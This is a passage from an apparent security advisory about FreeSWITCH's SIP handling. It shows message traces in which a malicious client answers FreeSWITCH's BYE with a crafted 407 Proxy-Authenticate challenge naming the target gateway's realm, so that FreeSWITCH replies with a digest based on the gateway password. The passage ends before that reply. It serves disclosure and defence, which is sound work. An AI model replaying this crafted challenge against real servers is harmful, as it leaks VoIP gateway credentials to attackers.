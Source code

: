 The call is either manually picked up by the callee, or automatically by its mailbox:

```
SIP/2.0 200 OK
Via: SIP/2.0/UDP 192.168.1.215:35273;rport=35273;branch=z9hG4bK-UkZy2ufFodKb5r2T
From: <sip:1001@192.168.1.215>;tag=t0D1TEIKQGit7Tf7
To: <sip:1002@192.168.1.215>;tag=983BacQc9Q9vp
Call-ID: Y72a9ZSUQk0zQ23P
CSeq: 1 INVITE
Contact: <sip:1002@192.168.1.215:5080;transport=udp>
User-Agent: FreeSWITCH-mod_sofia/1.10.7-dev+git~20210325T155256Z~67cec5c3e8~64bit
Accept: application/sdp
Allow: INVITE, ACK, BYE, CANCEL, OPTIONS, MESSAGE, INFO, UPDATE, REGISTER, REFER, NOTIFY
Supported: timer, path, replaces
Allow-Events: talk, hold, conference, refer
Content-Type: application/sdp
Content-Disposition: session
Content-Length: 222
Remote-Party-ID: "1002" <sip:1002@192.168.1.215>;party=calling;privacy=off;screen=no
```

Once the callee or mailbox hangs up the call, FreeSWITCH will send a BYE request to the malicious UAC:

```
BYE sip:1001@192.168.1.215:35273;transport=udp SIP/2.0
Via: SIP/2.0/UDP 192.168.1.215:5080;rport;branch=z9hG4bKF7XSHFKDmUN5D
Max-Forwards: 70
From: <sip:1002@192.168.1.215>;tag=983BacQc9Q9vp
To: <sip:1001@192.168.1.215>;tag=t0D1TEIKQGit7Tf7
Call-ID: Y72a9ZSUQk0zQ23P
CSeq: 34695099 BYE
User-Agent: FreeSWITCH-mod_sofia/1.10.7-dev+git~20210325T155256Z~67cec5c3e8~64bit
Allow: INVITE, ACK, BYE, CANCEL, OPTIONS, MESSAGE, INFO, UPDATE, REGISTER, REFER, NOTIFY
Supported: timer, path, replaces
Reason: Q.850;cause=16;text="NORMAL_CLEARING"
Content-Length: 0

```

The malicious UAC will then challenge the BYE request by sending a specially crafted 407 response. The realm value of the `Proxy-Authenticate` header is set to the domain of the target gateway, in our case `demo.sipvicious.pro`:

```
SIP/2.0 407 Proxy Authentication Required
Via: SIP/2.0/UDP 192.168.1.215:5080;rport;branch=z9hG4bKF7XSHFKDmUN5D
From: <sip:1002@192.168.1.215>;tag=983BacQc9Q9vp
To: <sip:1001@192.168.1.215>;tag=t0D1TEIKQGit7Tf7
Call-ID: Y72a9ZSUQk0zQ23P
CSeq: 34695099 BYE
Proxy-Authenticate: Digest realm="demo.sipvicious.pro",nonce="4XC2",algorithm=MD5
```

FreeSWITCH will reply with the challenge response, base on the password of the gateway:

